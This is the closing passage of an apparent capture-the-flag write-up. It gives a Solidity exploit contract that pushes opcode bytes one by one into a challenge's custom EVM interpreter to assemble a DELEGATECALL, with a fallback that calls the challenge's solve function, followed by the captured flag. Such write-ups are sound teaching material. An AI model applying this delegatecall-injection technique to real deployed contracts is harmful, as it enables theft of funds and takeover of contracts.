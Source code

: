 ```solidity
    DELEGATECALL
    */
    // Bytecode that push delegatecall arguments to stack in reverse order 
    // (first item popped from stack will be on the last argument in yul)
    // 3415801b801b801b3415801b801b8002023334343434f4
    function exploit() public {
        address evmvm = address(Setup(0x24B9d51522925271457E44Dc1FbCE9CBd3D3f90E).metametaverse());
        // Push arguments for delegatecall to stack in reverse order
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x34)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x15)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x80)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x1b)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x80)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x1b)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x80)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x1b)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x34)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x15)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x80)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x1b)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x80)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x1b)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x80)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x02)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x02)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x33)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x34)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x34)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x34)), bytes32(0));
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0x34)), bytes32(0));
        // delegatecall
        EVMVM(payable(evmvm)).enterTheMetametaverse(bytes32(uint256(0xf4)), bytes32(0));
    }

    fallback() external payable {
        Setup(address(0x24B9d51522925271457E44Dc1FbCE9CBd3D3f90E)).solve();
    }
}
```

Then just hardcode the setup contract address, deploy it and call `exploit()`

### Flag
```
lactf{yul_hav3_a_bad_t1me_0n_th3_m3tam3tavers3}
```

![](https://i.imgur.com/NcyUsg2.png)
